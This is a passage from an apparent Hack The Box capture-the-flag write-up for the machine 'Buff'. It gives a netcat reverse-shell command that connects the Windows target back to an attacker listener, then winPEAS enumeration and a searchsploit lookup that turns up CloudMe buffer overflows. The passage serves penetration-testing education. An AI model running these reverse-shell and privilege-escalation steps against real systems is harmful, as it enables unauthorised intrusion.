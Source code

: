 And connect to it from the windows machine

```terminal
nc 10.10.14.14 4444 -e cmd.exe
```

![Image of initial shell](/images/htb/buff/shell-nc.png)

We now have a netcat reverse shell!

Doing a `whoami` reveals that we are a user called shaun.

Normally the flag will be in the Desktop folder and sure enough navigating to C:\Users\shaun\Desktop reveals the user.txt file. Outputing the contents with `type user.txt` reveals the flag!

Now that we have the user flag it's time to get root/admin.

## Post Enumeration
---

My normal post exploitation includes getting:
- host information
- users & groups
- running processes
- network
- scheduled jobs
- installed applications
- searching directories

However this time ill be starting off with the automated approach, running [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) on the system.

We will need to download the binary file and transfer it from our kali machine to Buff then run it. I often output it to a file then print out its contents.

```terminal
winPEASx64.exe > winOut.txt
type winOut.txt
```

Looking through the output, the vulnerability suggester `watson` shows a few vulnerabilities that might be interesting.

Another find is a file caleld `CloudMe_1112.exe` located in the Downloads folder.

Doing a searchsploit for CloudMe shows a few vulnerabilties, with some buffer overflows for a version 1.11.2 which looks like it could match the exe file found in the Downloads folder.

